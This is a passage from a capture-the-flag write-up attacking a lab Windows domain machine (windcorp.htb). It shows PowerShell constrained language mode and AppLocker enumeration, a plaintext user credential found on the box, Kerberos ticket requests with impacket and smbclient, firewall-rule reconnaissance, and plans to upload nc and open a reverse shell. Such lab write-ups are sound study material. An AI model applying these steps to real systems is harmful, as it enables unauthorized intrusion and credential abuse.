 Still get an error, this time about core modules. So maybe constrained language mode?
```
LanguageMode                  : ConstrainedLanguage
```

boo.

Trying to upload nc gives an applocker error.

Looking at applocker rules:
```
%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll
%OSDRIVE%\share\scripts\7-zip64.dll
Signed by CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=COM
Signed by O=AUTOIT CONSULTING LTD, L=BIRMINGHAM, C=GB
%OSDRIVE%\script\login.cmd
```

Looking at whats on the box there is a `Get-bADpasswords` directory which shows that a user has a weak password:
```
BeatriceMill:!!!!ilovegood17
```

smbshares?
```
session setup failed: NT_STATUS_NOT_SUPPORTED
```

Well this isn't fun.

## Kerberos magic
using impacket to get a TGT.
```
python3 /opt/impacket/examples/getTGT.py windcorp.htb/beatricemill
```

Have to update the `/etc/krb5.conf` file and `resolve.conf`

Then:
```
KRB5CCNAME=beatricemill.ccache smbclient -k -U beatricemill@windcorp.htb -L //hathor.windcorp.htb
```

Time to get a proper rev shell

Going to use insomnia shell.

# Shell as webserver

Enumerate firewall.
```powershell
Get-Netfirewallrule -policystore activestore | where {$_.Action -eq "Block"}|select displayname

cscript64   
cscript32   
ps32        
ps64        
ps ISE32    
ps ISE64    
regsvr32-64 
regsvr32-32 
rundll32-64 
rundll32-32 
wscript32   
wscript64   
certutil64  
certutil32  
certoc      
```